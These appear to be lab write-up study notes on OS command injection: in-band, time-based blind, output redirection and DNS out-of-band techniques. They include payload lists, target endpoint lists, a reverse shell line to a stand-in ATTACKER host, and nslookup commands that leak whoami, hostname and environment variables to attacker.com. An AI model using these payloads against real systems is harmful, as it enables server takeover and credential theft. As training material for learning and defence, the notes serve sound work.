




# Lab-1 🧨 OS Command Injection (Shell Injection)

---

## 🔹 Overview

OS Command Injection is a *critical server-side vulnerability* where an application executes operating system commands using *user-controlled input* without proper sanitization.

A successful exploit allows an attacker to:

- Run arbitrary system commands
- Read sensitive files
- Take full control of the server
- Pivot to internal systems

---

## 🔹 What Is This Topic?

> OS Command Injection occurs when user input is directly inserted into a system command (bash, sh, cmd, PowerShell) and executed by the OS.

This usually happens when developers:

- Use system(), exec(), shell_exec()
- Call shell scripts or OS binaries
- Trust user input for system-level operations

---

## 🔹 Lab Walkthrough (Your Solved Lab)

*Step-by-Step Exploitation*

### 1️⃣ Identify parameter passed to OS command

/stockStatus?productID=2&storeID=1

### 2️⃣ Test command injection separator

| whoami

### 3️⃣ Final payload
```
productID=2&storeID=1|whoami
```

### 4️⃣ Observe response

- Username printed in response


### 5️⃣ Submit username

- Lab solved ✅

---

## 🔹 Evidence



---

## 🔹 Real-World Scenarios (OUT OF THE BOX)

### 1️⃣ Network Diagnostic Features (Most Common)

*Scenario:*  
A website allows users to test connectivity.

*Example Endpoint:*

/ping?host=8.8.8.8

*Backend Logic:*

ping -c 3 <user_input>

*Attacker Input:*

8.8.8.8 | whoami

*Impact:*
- Command execution
- Server user disclosure
- Easy RCE

---

### 2️⃣ Stock / Inventory Systems (Your Lab)

*Scenario:*  
Legacy system checks product availability.

*Backend:*

stockreport.pl productID storeID

*Attacker Input:*

productID=2&storeID=1|whoami

*Impact:*
- Arbitrary command execution
- Data exfiltration
- Full backend compromise

---

### 3️⃣ File Management Systems

*Scenario:*  
Admin panel reads logs or exports files.

*Endpoint:*

/download?file=report.txt

*Attacker Input:*

report.txt; id

*Impact:*
- File system access
- User enumeration
- Data leakage

---

### 4️⃣ Image / Media Processing

*Scenario:*  
Server resizes or converts images.

*Backend:*

convert <filename> -resize 200x200

*Attacker Input:*

image.jpg; whoami

*Impact:*
- RCE via image tools (ImageMagick, etc.)
- Very common in bug bounties

---

### 5️⃣ Backup / Maintenance Endpoints (HIGH RISK)

*Scenario:*  
Admin triggers backups or cleanup tasks.

*Endpoints:*

/backup /cleanup /run-task

*Attacker Input:*

backup && whoami

*Impact:*
- 🚨 Full server takeover
- 🚨 Often runs as root

---

### 6️⃣ URL Fetch / Import Features

*Scenario:*  
Application fetches data from user-provided URL.

*Endpoint:*

/fetch?url=http://example.com

*Attacker Input:*

http://test.com | whoami

*Impact:*
- RCE
- SSRF + OSCI combo

---

### 7️⃣ API Endpoints (JSON / XML)

*Scenario:*  
Backend processes system tasks via API.

*Payload:*
```json
{
  "host": "8.8.8.8; whoami"
}
```
*Impact:*
- Silent RCE
- Often overlooked by developers

---

## 🔹 High-Value Endpoints to Always Test

*🔥 Priority Targets*
```
/ping
/network-test
/status
/diagnostics
/backup
/restore
/cleanup
/convert
/resize
/export
/import
/fetch
/api/*
/admin/*
```

---

## 🔹 Universal Payloads (MEMORIZE)

*Linux / Unix*
```
; whoami
&& whoami
| whoami
$(whoami)
whoami
; sleep 5
```

*Windows*
```
& whoami
| whoami
&& whoami
```

---

## 🔹 Multi-Chain Attacks (REAL WORLD)

### 🔗 Chain 1: OSCI → File Read → Secrets

- OSCI → cat /etc/passwd

### 🔗 Chain 2: OSCI → Reverse Shell

- OSCI → bash -i >& /dev/tcp/ATTACKER/4444

### 🔗 Chain 3: OSCI → Credential Dump → Lateral Movement

- OSCI → env → DB creds → DB takeover

### 🔗 Chain 4: OSCI + SSRF

- URL fetch + shell execution → Internal network scan


---

3# 🔹 Impact (Why This Is CRITICAL)

- Full server compromise
- Database theft
- Credential leakage
- Lateral movement
- Supply-chain compromise
- Complete infrastructure takeover
- CVSS: Usually 9.8 – 10.0


---

## 🔹 Remediation (Defender View)

✅ Never pass user input to shell
✅ Use safe APIs instead of OS commands
✅ Whitelist input values
✅ Escape shell metacharacters
✅ Use parameterized commands
✅ Run services with least privilege
✅ Disable shell execution if not required

---

## 🔹 Extra Notes / Pro Tips

- Timing payload (sleep 5) = blind injection
- Output visible = easiest confirmation
- Always test |, ;, &&
- APIs are more vulnerable than UI
- Legacy code = high risk
- Admin tools = jackpot

---

# Lab-2 🧨 Blind OS Command Injection — Time-Based Attacks

---

## 1️⃣ Overview

Blind OS Command Injection occurs when:

- User input is passed to an operating system command
- The command *executes successfully*
- *BUT no command output is returned* in the HTTP response

In such cases, attackers confirm exploitation using *side effects*, most commonly:

- Time delays
- Network callbacks
- File creation
- System behavior changes

This is *extremely common in real-world production apps* and frequently missed.

---

## 2️⃣ What Is This Topic?

Blind OS Command Injection is about exploiting OS command execution *without visible output*.

> Output is hidden, but execution still happens.

Attackers rely on:

- sleep
- ping
- timeout
- DNS / HTTP callbacks

To *prove execution indirectly*.

---

## 4️⃣ Lab Walkthrough (Time-Based Confirmation)

1. Identify parameter passed to OS command (any input field that adds parameters in OS Command ,e.g: feedback form) 
2. No output is reflected in response (echo OS command failed) 
3. Output-based payloads fail  
4. Switch to time-based payload  
5. Inject command separator  (e.g: in feedback form in email parameter=xyz@gmail.com||ping -c 10 127.0.0.1||
6. Trigger delay using ping  
7. Confirm execution via response time  

> Execution confirmed *without any output*

---

## 5️⃣ Evidence (Time-Based Execution)

The following evidence shows successful blind OS command injection using a *10-second delay payload* with ping to localhost.

### 📸 Time Delay Confirmation



---

## 3️⃣ Real-World Scenarios (Attacker Mindset)

### 🔹 Scenario 1: Feedback / Contact Form (MOST COMMON)

*What the app wants:*
- User submits feedback
- Server sends email using OS command

*Example backend command:*

mail -s "feedback" admin@site.com

*Attacker payload (blind):*

test@test.com && ping -c 10 127.0.0.1

*How attacker confirms:*
- Page response delayed by ~10 seconds

*Impact:*
- Silent OS command execution
- Often escalates to full RCE

---

### 🔹 Scenario 2: Ping / Network Test Feature

*What the app wants:*
- Check if a host is reachable

*Backend command:*

ping <user_input>

*Attacker payload:*

127.0.0.1 | ping -c 10 127.0.0.1

*Observation:*
- Application hangs for 10 seconds

*Impact:*
- Confirmed OS command execution
- Internal pivoting possible

---

### 🔹 Scenario 3: URL Fetch / Webhook Tester

*What the app wants:*
- Fetch a user-supplied URL

*Backend command:*

curl <url>

*Payload:*

http://example.com; ping -c 10 127.0.0.1

*Confirmation:*
- Delayed response
- No output shown

*Impact:*
- Blind RCE
- Can chain with SSRF

---

### 🔹 Scenario 4: File Export / Report Generator

*What the app wants:*
- Generate and export reports

*Backend command:*

generate_report <filename>

*Payload:*

report.csv && ping -c 10 127.0.0.1

*Detection:*
- Export takes unusually long

*Impact:*
- Backend command execution
- Often runs with high privileges

---

### 🔹 Scenario 5: Image / Media Processing

*What the app wants:*
- Resize or convert images

*Backend command:*

convert input.jpg output.png

*Payload:*

image.jpg | ping -c 10 127.0.0.1

*Result:*
- Processing delay
- CPU spike

*Impact:*
- RCE via media pipelines

---

## 6️⃣ High-Value Endpoints to Always Test

/feedback /contact /ping /check-host /fetch /import-url /export /report /backup /maintenance /api/*

*High-risk parameters:*

email host ip url file name task

---

## 7️⃣ Multi-Chain Attack Possibilities

- Blind OSCI → Reverse shell
- Blind OSCI → Credential theft
- Blind OSCI → SSRF → Internal scan
- Blind OSCI → File write → Persistence
- Blind OSCI → Lateral movement

---

## 8️⃣ Remediation (Defender View)

- ❌ Never pass user input to shell
- ✅ Use safe system APIs
- ✅ Strict allowlists
- ✅ Proper argument escaping
- ✅ Disable dangerous OS tools
- ✅ Run services with least privilege

---

## 🔹 Universal OS Command Injection Payload Syntax (Must-Try Set)

> Use these payloads when testing OS command injection.
> At least ONE of them usually works depending on backend parsing.

---

### 🔸 Linux / Unix Payloads

#### Basic Command Chaining
```
- ; whoami
- && whoami
- | whoami
- || whoami
```
#### Command Substitution
```
- $(whoami)
- `` whoami ``
```
#### Time-Based (Blind OSCI)
```
- ; sleep 10
- && sleep 10
- | sleep 10
- || sleep 10
```
#### Network / Delay Alternative
```
- ; ping -c 10 127.0.0.1
- && ping -c 10 127.0.0.1
```
---

### 🔸 Windows Payloads

#### Basic Command Chaining
```
- & whoami
- && whoami
- | whoami
```
#### Time-Based (Blind OSCI)
```
- & timeout /t 10
- && timeout /t 10
- | timeout /t 10
```
---

### 🔸 URL-Encoded Variants (When Encoding Is Applied)
```
- %3B%20whoami
- %26%26%20whoami
- %7C%20whoami
- %3B%20sleep%2010
```
---

### 🔸 JSON / API Payload Example
```
{ "host": "8.8.8.8; sleep 10" }
```
---

### 🔸 Real-World Testing Rule

- Try *; first*
- If blocked → try &&
- If still blocked → try |
- If output hidden → switch to *sleep / ping*
- If UI blocks → test *API / JSON*

---


## 9️⃣ Extra Notes / Pro Tips

- Blind ≠ safe
- Time delay = execution proof
- Always try multiple separators:

; && || |

- Delays are the most reliable signal
- Real environments vary

---

## 🧠 One-Line Memory Hook

> If input reaches the OS and output is hidden — assume blind command injection.

---

# Lab-3 🧨 Blind OS Command Injection via Output Redirection

---

## 1. Overview

Blind OS Command Injection occurs when an application executes operating system commands using user-controlled input *without returning the output* in the HTTP response.

Even though output is hidden, attackers can still:

- Execute arbitrary OS commands
- Redirect output to files
- Read sensitive data
- Achieve full server compromise

This lab demonstrates how *output redirection* turns a blind vulnerability into a *visible, confirmable exploit*.

---

## 2. What Is This Topic About?

Blind OS Command Injection focuses on scenarios where:

- Command execution occurs
- Output is suppressed or not reflected
- Exploitation relies on *side effects*

Key idea:

> If you can execute commands and write files, you can always retrieve the output later.

This is a *real-world exploitation technique*, not lab-only behavior.

---

## 3. LAB WALKTHROUGH (Exact Attack Flow)

### Step 1 — Identify Injection Point

- Application contains a feedback / contact feature
- User input is processed by an OS-level command
- No command output is shown → *blind injection*

---

### Step 2 — Inject Time-Based Payload (Proof of Execution)

Payload applied:
```
email=test@test.com||ping -c 10 127.0.0.1||
```
Result:

- Application response delayed by ~10 seconds
- Confirms OS command execution

---

### Step 3 — Redirect Command Output to File

Payload used:
```
email=test@test.com||whoami>/var/www/images/output.txt||
```
What happens internally:

- whoami executes on server
- Output is written to output.txt
- No output shown in response

---

### Step 4 — Fetch the Output File

- Application loads images using a filename parameter
- Attacker manually changes filename in GET request of image file:
```
  GET /image?filename=output.txt HTTP/2
```
Result:

- Browser displays OS command output
- Blind injection successfully converted into visible output

---

### Step 5 — Lab Completion

- Username retrieved
- Secret confirmed
- Lab solved successfully 🎯

---

## 4. Evidence

### Screenshot 1 — Payload Injection (Time Delay / Output Redirection)



### Screenshot 2 — Fetching Output File via Filename Parameter



---

## 5. Real-World Scenarios (Out-of-the-Box)

### Scenario 1 — Feedback / Contact Forms (Very Common)

Application behavior:

- Sends email or logs feedback using OS command

Attack payload:
```
email=test@test.com; id > /var/www/html/id.txt
```
Impact:

- OS command execution
- Output accessible via browser
- Server user enumeration

---

### Scenario 2 — Image Processing Pipelines

Application behavior:

- Resizes or converts images using system tools

Attack:
```
image=test.jpg; whoami > /uploads/out.txt
```
Impact:

- Remote command execution
- Data exfiltration
- Often escalates to full shell

---

### Scenario 3 — Admin / Maintenance Endpoints

Endpoints:
```
- /backup
- /cleanup
- /diagnostics
```

Attack:
```
task=cleanup; cat /etc/passwd > /var/www/images/passwd.txt
```
Impact:

- System file disclosure
- Credential harvesting
- Privilege escalation paths

---

### Scenario 4 — Log File Abuse

Attack chain:

1. Inject command
2. Redirect output into log directory
3. Read logs via browser

Impact:

- Stealthy data exfiltration
- Persistent backdoors

---

### Scenario 5 — Cloud / Container Environments

Payloads:
```
whoami > /var/www/images/user.txt cat /proc/self/environ > /var/www/images/env.txt
```
Impact:

- Cloud credential leakage
- Container escape paths
- Infrastructure compromise

---

## 6. High-Value Endpoints to Test

### Form-Based
```
- /feedback
- /contact
- /support
- /report
```

Parameters:
```
- email
- message
- comment
- reason
```

---

### File / Media Processing
```
- /upload
- /resize
- /convert
- /process
- /thumbnail
```

---

### Backend / Admin
```
- /backup
- /restore
- /health
- /maintenance
- /diagnostics
```

---

### URL-Based
```
- /fetch
- /import
- /load-url
- /webhook-test
```

---

## 7. Multi-Chain Attack Possibilities

### Chain 1 — Blind Injection → Output File → Web Shell

1. Write PHP payload into web directory
2. Access via browser
3. Full remote shell

---

### Chain 2 — Blind Injection → File Disclosure → Credential Theft

1. Dump /etc/passwd
2. Dump .env
3. Extract DB / API keys
4. Lateral movement

---

### Chain 3 — Blind Injection → Cloud Takeover

1. Dump environment variables
2. Extract cloud keys
3. Access cloud services
4. Infrastructure compromise

---

### Chain 4 — Blind Injection → Privilege Escalation

1. Identify running user
2. Enumerate sudo permissions
3. Exploit misconfigurations
4. Root access

---

## 8. Remediation (Defensive View)

- Do NOT pass user input to shell commands
- Use native APIs instead of OS execution
- Apply strict allowlists
- Avoid shell interpretation
- Disable output redirection
- Lock filesystem permissions
- Make upload directories non-executable
- Monitor unexpected file creation

---

## 9. Extra Notes / Pentester Tips

- Blind ≠ low impact
- File write access is as dangerous as direct output
- Always look for:
  - Writable directories
  - Served directories
- Output redirection works even when:
  - echo fails
  - errors are hidden
  - responses are sanitized

---

## 10. One-Line Summary

> Blind OS command injection becomes fully exploitable when attackers redirect command output into a web-accessible file and retrieve it via the application.

---

# Lab-4✅ Blind OS Command Injection via Out-of-Band (OAST) Techniques — Full Notes

---

## 1. Overview

In some blind OS command injection cases:

- No command output is returned ❌
- No writable web directory exists ❌
- Commands execute asynchronously ❌

Yet the vulnerability is still exploitable.

This lab demonstrates exploiting *blind OS command injection* using *Out-of-Band Application Security Testing (OAST), where command execution is confirmed via **external network interactions* such as DNS or HTTP requests.

---

## 2. What Is This Topic About?

This topic focuses on:

> *Detecting and exploiting blind OS command injection by forcing the vulnerable server to interact with an attacker-controlled external system.*

### Key idea:

- You cannot see output
- You cannot write files
- But you can observe network traffic

If the server talks to you → *command execution confirmed*.

---

## 3. Why OAST Is Critical in Real-World Attacks

In real production environments:

- Output is suppressed
- Filesystem is locked down
- Logs are hidden
- Responses look normal

But servers almost always:

- Can resolve DNS ✅
- Can make outbound connections ✅

*This is why OAST is the most powerful blind exploitation technique.*

---

## 4. Core Exploitation Concept (Attacker Mindset)

If this is true:

- User input reaches a shell command ✅
- Server can make outbound network requests ✅

Then:

> *Inject a command that forces the server to contact your system.*

If you observe that interaction → injection confirmed.

---

## 5. What Is OAST (Out-of-Band Application Security Testing)?

OAST means:

- Detection happens *outside* the application response

Via:

- DNS lookups
- HTTP requests
- ICMP (sometimes)
- SMTP callbacks

### In labs:
- Burp Collaborator

### In real-world:
- Attacker VPS
- Custom DNS server
- Logging webhook

---

## 6. LAB WALKTHROUGH (Exact Logic)

### Step 1: Identify blind injection point

- Feedback form submits user data
- Backend executes shell command
- No output returned
- Commands execute asynchronously

This eliminates:

- echo payloads ❌
- Time delays ❌
- Output redirection ❌

---

### Step 2: Generate OAST payload

Example payload:
```
& nslookup kgji2ohoyw.web-attacker.com &
```
What this does:

- Executes nslookup
- Forces server to resolve attacker-controlled domain
- Creates observable DNS interaction

---

### Step 3: Inject payload

Injected into a vulnerable parameter (example: email):
```
email=test@test.com||nslookup kgji2ohoyw.web-attacker.com||
```
---

### Step 4: Monitor OAST server

- Open Burp Collaborator
- Observe incoming DNS request
- Confirm server executed the command

✅ Blind OS command injection confirmed  
✅ Lab solved

---

## 7. Highly Possible Real-World Scenarios

### Scenario 1: Locked-Down Production Servers

*Environment*
- No output
- No file writes
- No verbose errors

*Attack*
```
nslookup attacker-domain.com
```
*Impact*
- Confirms RCE
- Enables deeper exploitation
- Very common in bug bounties

---

### Scenario 2: Cloud & Container Environments

*Attack*
```
nslookup $(hostname).attacker.com
```
*Impact*
- Hostname leakage
- Environment mapping
- Cloud takeover preparation

---

### Scenario 3: Corporate Firewalls

Even when:

- HTTP blocked ❌
- ICMP blocked ❌

DNS is usually:

- Allowed ✅

➡ DNS-based OAST is extremely reliable.

---

### Scenario 4: WAF-Protected Applications

WAF may:

- Block visible payloads
- Allow DNS silently

OAST bypasses:

- Logging
- Alerts
- Output inspection

---

### Scenario 5: Stealth Red Team Attacks

OAST:

- No files written
- No visible response anomalies
- Minimal forensic traces

Used in:

- Red team ops
- APT-style attacks

---

## 8. High-Value Endpoints to Test with OAST

### User input forms
```
- /feedback
- /contact
- /support
- /report-abuse
```

---

### Backend processing endpoints
```
- /email/send
- /notify
- /webhook
- /alert
```

---

### Admin / internal endpoints
```
- /health
- /sync
- /monitor
- /jobs/run
```

---

## 9. Multi-Chain Attack Possibilities

### Chain 1: OAST Confirmation → Full RCE

1. Confirm execution via DNS
2. Attempt output redirection
3. Attempt reverse shell
4. Full compromise

---

### Chain 2: OAST → Data Exfiltration

nslookup $(whoami).attacker.com

- User context leaked
- Environment profiling

---

### Chain 3: OAST → Cloud Credential Theft

nslookup $(cat /proc/self/environ).attacker.com

- Secrets leaked
- Cloud takeover potential

---

### Chain 4: OAST → Internal Network Mapping

nslookup internal-db.attacker.com

- Discover internal hostnames
- Lateral movement

---

## 10. Remediation (Defensive Perspective)

- ❌ Never pass user input to shell commands
- ✅ Use native APIs
- ✅ Avoid system(), exec()

---

- ✅ Restrict outbound traffic
- DNS egress filtering
- Firewall rules

---

- ✅ Strict input validation
- Allowlists only
- Block shell metacharacters

---

- ✅ Secure command execution
- No shell interpretation
- Use argument arrays

---

## 11. Extra Notes / Pro Tips

- DNS-based OAST is the most reliable blind technique
- Always use unique subdomains
- Combine OAST with:
  - Time delays
  - Output redirection
- Real bug bounty reports heavily rely on this method

---

## 🔑 One-Line Summary (Interview / Exam Ready)

> Blind OS command injection can be exploited using out-of-band techniques by forcing the server to perform external DNS or HTTP requests that confirm command execution.

---


# Lab-5 ✅ Ways of Injecting OS Commands — Full Attacker Notes

---

## 1. Overview

OS command injection is *not about one payload*.

It is about understanding *shell behavior* and choosing the correct technique based on:

- Operating system (Linux / Windows)
- Output visibility (in-band vs blind)
- Quoted or unquoted context
- Filters and WAF behavior

This topic covers *practical real-world injection methods*, not theory.

---

## 2. What Is This Topic About?

This topic explains:

> *How attackers inject OS commands using shell metacharacters, how those characters behave differently, and how to exfiltrate command output even in blind scenarios.*

### Key skills gained:

- Selecting correct command separators
- Breaking out of quoted contexts
- Inline command execution
- DNS-based data exfiltration (OAST)

---

## 3. Core Attacker Mindset

Always think like this:

> *“Where does my input land inside the shell command, and how do I escape or extend it?”*

Everything depends on:

- Context
- OS
- Response behavior

---

## 4. Command Separators (Cross-Platform)

These separators work on *both Linux and Windows*:
```
& && | ||
```
### What they do

| Separator | Behavior |
|---------|----------|
| & | Run next command regardless |
| && | Run only if previous succeeds |
| | | Pipe output into next command |
| || | Run next command if previous fails |

---

### Real-world usage examples
```
ping 8.8.8.8 & whoami ping 8.8.8.8 && whoami ping 8.8.8.8 | whoami ping 8.8.8.8 || whoami
```
---

### When to use which

- & → Fastest confirmation
- && → Stealthier logic-based execution
- | → Effective in blind scenarios
- || → Useful for bypassing logic checks

---

## 5. Unix-Only Command Separators

These work *only on Linux / Unix systems*:
```
; newline (\n or 0x0a)
```
---

### Examples
```
ping 8.8.8.8 whoami
```
---

### Why newline injection is powerful

- Often not filtered
- Invisible in logs
- Bypasses naive sanitization

---

## 6. Inline Command Execution (Unix Only)

Instead of chaining commands, the injected command executes *inside* the original command.

### Methods

command $(command)

---

### Example

ping whoami ping $(whoami)

### What happens

- whoami executes
- Output replaces part of the original command

This is *extremely powerful* for blind exfiltration.

---

## 7. Quoted Context Injection (VERY IMPORTANT)

Sometimes input is placed inside quotes:

ping "USER_INPUT"

Your payload must *break out of quotes first*.

---

### Example payloads
```
" ; whoami # ' ; whoami # " && whoami #
```
---

### Attacker logic

1. Close the quote  
2. Inject a separator  
3. Execute command  
4. Comment out remaining command (optional)

---

## 8. OAST + Inline Execution (Advanced & Real World)

This is *elite-level exploitation*.

### Payload
```
& nslookup whoami.attacker.com &
```
---

### What happens

- whoami executes
- Output becomes part of domain name
- DNS request is sent like:

www-data.attacker.com

---

### Why this is deadly

- No output required
- No file writes
- Works asynchronously
- Extremely stealthy

---

## 9. Highly Possible Real-World Scenarios

### Scenario 1: Feedback / Contact Forms

*Context*  
Commands execute silently.

*Payload*
```
|| nslookup whoami.attacker.com ||
```
*Impact*
- Confirms RCE
- Leaks execution user

---

### Scenario 2: Network Diagnostic Tools

*Context*  
Ping / traceroute features.

*Payload*
```
8.8.8.8; whoami
```
*Impact*
- Full OS command execution

---

### Scenario 3: Cloud & Containers

*Payload*
```
nslookup $(hostname).attacker.com
```
*Impact*
- Container / host name leaked
- Infrastructure mapping

---

### Scenario 4: WAF-Protected Applications

*Payload*
```
|| nslookup id.attacker.com ||
```
*Impact*
- Bypasses output blocking
- DNS usually allowed

---

## 10. High-Value Endpoints to Test

/ping /check-host /feedback /email/send /backup /maintenance /api/run /diagnostics

> If it touches the OS — *test it*.

---

## 11. Multi-Chain Attack Possibilities

### Chain 1: Injection → DNS Exfiltration → RCE

- Confirm execution
- Leak execution user
- Leak hostname
- Pivot further

---

### Chain 2: Injection → Credential Leak

nslookup $(env).attacker.com

- Environment variables leaked
- API keys exposed

---

### Chain 3: Injection → Internal Recon

nslookup internal-db.attacker.com

- Internal services discovered

---

## 12. Remediation (What Defenders Must Do)

- ❌ Never build shell commands from user input
- ✅ Use safe system APIs
- ✅ Strict input allowlists
- ✅ Escape arguments properly
- ✅ Block outbound DNS/HTTP where possible

---

## 13. Extra Notes / Pro Tips

- Always test multiple separators
- Different shells behave differently
- DNS OAST is the most reliable blind technique
- Inline execution bypasses many filters
- Newline injection is often forgotten by developers

---

## 🔑 One-Line Master Summary

> OS command injection relies on abusing shell metacharacters to escape command context, chain commands, or execute inline payloads, with DNS-based OAST being the most reliable technique in blind scenarios.

---
